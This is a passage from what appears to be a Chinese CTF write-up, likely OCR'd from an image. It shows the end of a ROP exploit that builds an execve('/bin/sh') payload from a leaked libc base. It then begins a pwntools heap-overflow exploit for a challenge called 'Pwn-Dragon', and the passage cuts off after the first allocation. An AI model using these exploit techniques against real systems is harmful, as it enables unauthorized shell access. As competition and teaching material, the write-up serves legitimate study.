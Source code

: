 ```
    system_addr = libc_base + offset_system
    execve_addr = libc_base + offset_execve
   
    payload = ""
    payload += l32(0x0)
    payload += gen_rop_data(execve_addr, [bss_addr+0x100, 0, 0])
    payload = payload.ljust(0x100, 'a')
    payload += "/bin/shx00"
    payload += l8(0x1f)
   
    io.gdb_hint()
    io.writeline(payload)
    io.interact()
   
   
 io = get_io(target)
 pwn(io)
```

<br>

**Pwn-Dragon**

存在堆溢出，可以修改堆结构中的size.

脚本如下：

```
from pwn import *
   
   #r = remote('58.213.63.30', 11501) 
   r = process("./dragon")
   
   def add(size, name, content):
     r.recvuntil('&gt;&gt;')
     r.sendline('1')
     r.recvuntil(':')
     r.sendline(str(size))
     r.recvuntil(':')
     r.sendline(name)
     r.recvuntil(':')
     r.sendline(content)
   
   def edit(id, content):
     r.recvuntil('&gt;&gt;')
     r.sendline('2')
     r.recvuntil(':')
     r.sendline(str(id))
     r.recvuntil(':')
     r.write(content)
   
   def show(id):
     r.recvuntil('&gt;&gt;')
     r.sendline('4')
     r.recvuntil(':')
     r.sendline(str(id))
   
   def delete(id):
     r.recvuntil('&gt;&gt;')
     r.sendline('3')
     r.recvuntil(':')
     r.sendline(str(id))
   
   
 add(0x20, 'AAAA', 'AAAA')
```